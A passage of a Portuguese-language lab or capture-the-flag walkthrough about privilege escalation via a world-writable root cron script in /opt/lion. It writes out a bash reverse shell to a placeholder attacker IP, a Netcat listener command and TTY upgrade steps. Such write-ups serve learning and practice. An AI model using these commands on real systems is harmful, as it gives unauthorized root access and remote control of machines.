## **4. Encontramos um cronjob do root vulnerável**

No diretório:

```
/opt/lion
```

Há um arquivo chamado:

```
lion.backup.sh
```

Você descobriu, com LinPEAS ou manualmente, que:

- Ele é executado pelo **root** (via cron)
    
- Ele é editável por **outros usuários** (`-rw-rw-r--` ou `chmod 777`, por exemplo)
    

Esse é o cenário **perfeito para escalonamento de privilégio**.


---

## **5. Adicionando uma reverse shell no script**

No conteúdo de `lion.backup.sh`, você insere:

```bash
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/SEU_IP/1337 0>&1'
```

> Esse comando conecta de volta ao seu IP (na porta 1337) e abre um **bash interativo** com privilégios de root.

### Depois disso, no seu terminal, você escuta com Netcat:

```bash
nc -lvp 1337
```

Agora é só aguardar 1 minuto (tempo do cron). Quando o cron executar o script, você receberá a **conexão reversa como root**.

---

## **6. Shell interativo como root (TTY)**

Quando a conexão for estabelecida, você pode melhorar o shell da mesma forma que antes:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
Ctrl + Z
stty raw -echo; fg
ENTER
export TERM=xterm
```
